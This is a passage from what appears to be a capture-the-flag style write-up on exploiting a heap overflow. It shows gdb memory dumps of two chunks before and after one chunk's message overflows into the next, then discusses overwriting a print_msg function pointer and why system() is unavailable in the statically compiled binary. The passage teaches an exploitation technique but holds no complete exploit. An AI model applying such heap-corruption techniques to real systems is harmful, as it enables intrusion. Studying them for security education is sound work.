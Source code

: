 0x80f1bf0:      0x7f6b67be      0x40f075a5      0x22c5e36c      0x003297b4
0x80f1c00:      0x53dd5394      0x00000001      0x00000000      0x000203f9
{% endhighlight %}

And here is what the same chunks look like after we overflow our message data from the 1st chunk to the 2nd chunk using the 1st chunk's corrupted size to replace its original message with 2000 B's

{% highlight bash %}
gdb-peda$ x/200xw 0x80f19f0 
0x80f19f0:      0x08048fd3      0x3533af89      0x61d321ab      0x0b083d7c
0x80f1a00:      0x1d75527c      0x1a2f4272      0x1f39293d      0x59e6bd11
0x80f1a10:      0x0ec2e802      0x09d26e5d      0x78cc57f2      0x0de00461
0x80f1a20:      0x7a11f3b6      0x1f091eed      0x72c574d1      0x66deaad5
0x80f1a30:      0x54d00421      0x7fa2d710      0x7e5f193b      0x67057a3f
0x80f1a40:      0x220d0a03      0x0a958023      0x4d3a5fbf      0x1b9c3b04
0x80f1a50:      0x150236a1      0x57f3cd3a      0x3a0749a4      0x37160cd7
0x80f1a60:      0x0c0418c7      0x4b93806d      0x3119bc44      0x25c568e7
0x80f1a70:      0x00c72ff6      0x7771edcb      0x239163e9      0x494a7f3e
0x80f1a80:      0x5f37103e      0x586d0030      0x5d7b6b7f      0x1ba4ff53
0x80f1a90:      0x4c80aa40      0x4b902c1f      0x3a8e15b0      0x4fa24623
0x80f1aa0:      0x3853b1f4      0x5d4b5caf      0x30873693      0x249ce897
0x80f1ab0:      0x16924663      0x3de09552      0x3c1d5b79      0x2547387d
0x80f1ac0:      0x604f4841      0x48d7c261      0x0f781dfd      0x59de7946
0x80f1ad0:      0x574074e3      0x15b18f78      0x78450be6      0x75544e95
0x80f1ae0:      0x4e465a85      0x09d1c22f      0x735bfe06      0x67872aa5
0x80f1af0:      0x42856db4      0x42424242      0x42424242      0x42424242
0x80f1b00:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1b10:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1b20:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1b30:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1b40:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1b50:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1b60:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1b70:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1b80:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1b90:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1ba0:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1bb0:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1bc0:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1bd0:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1be0:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1bf0:      0x42424242      0x42424242      0x42424242      0x42424242
0x80f1c00:      0x42424242      0x42424242      0x42424242      0x42424242
{% endhighlight %}
 
Usually at this point we would replace the `print_msg()` function pointer of the 2nd chunk with a pointer to `system()`, but that will not work in this case, since we also need "/bin/sh" to be passed in as the argument, and `messages[i]->print_msg(messages[i]);` uses a function pointer on the stack that we can't control as its argument to pass into the function pointer.

Additionally, this binary is statically compiled and `system()` does not exist in it.

{% highlight bash %}
gdb-peda$ p system
No symbol table is loaded.  Use the "file" command.
{% endhighlight %} 
